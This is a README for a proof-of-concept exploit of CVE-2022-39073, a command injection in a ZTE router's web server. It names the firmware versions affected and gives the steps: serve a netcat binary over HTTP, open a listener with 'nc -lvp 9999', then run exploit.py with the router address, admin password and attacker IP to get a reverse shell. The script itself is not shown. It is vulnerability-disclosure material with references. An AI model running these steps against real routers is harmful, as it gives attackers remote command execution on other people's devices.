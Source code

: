 # CVE-2022-39073

Firmware details:

```
wa_inner_version: BD_POSTEMF286RMODULEV1.0.0B12
cr_version: CR_ITPOSTEMF286RV1.0.0B10
```

## Prerequisites

- requests (`pip install requests`)

## Command Injection

The vulnerability is a shared command injection between the `zte_net_link_detect` binary and the `WATCH_DOG_SWITCH` handler in the webserver `goahead` binary.

Note that the vulnerability can only be exploited when the router is connected to the WAN or connected to the Internet via a SIM card. (The value of the "ppp_status" key must be "ppp_connected" or "ipv4_ipv6_connected" or "ipv6_connected").

### Risks

- Remote code execution (RCE)
- Arbitrary command execution

### Proof of Concept

The idea of exploit is to download the netcat static binary from an http server and then open a reverse shell with it.
P.S: The netcat included in this folder is big endian.

- Open an http server in this directory `python3 -m http.server 8080` 
- Open a listening socket on port `9999` with `nc -lvp 9999`
- Run the script in this folder `python3 exploit.py http://<router> <admin_password> <attacker_ip, es: 192.168.1.101>`

## References

This vulnerability was reported by Andrea Maugeri in September 2022.
https://support.zte.com.cn/support/news/NewsDetail.aspx?newsId=1028664